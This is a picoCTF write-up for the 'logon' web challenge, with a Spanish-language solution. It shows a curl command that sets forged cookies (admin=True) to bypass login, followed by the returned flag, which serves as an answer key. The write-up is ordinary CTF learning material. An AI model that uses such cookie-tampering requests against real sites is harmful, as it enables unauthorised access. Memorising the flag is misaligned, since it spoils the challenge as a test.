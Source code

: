 # logon

## Description

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573

## Hints 1

* Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución

En la terminal de webshell, ingresamos un curl y un -s para que se presente mejor la flag, enseguida ingresamos el link modificado con un '/flag' al final del url, después agregamos un usuario y una contraseña, al igual que un True en el admin y un grep pico para que nos muestre nuestra respectiva flag.

```
Jaz_sparrow-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/
problem/44573/flag -H "Cookie: username=jazmin; password=jazmin; admin=True" | 
grep pico

        <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
```

Flag:
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
### Respuesta: picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}

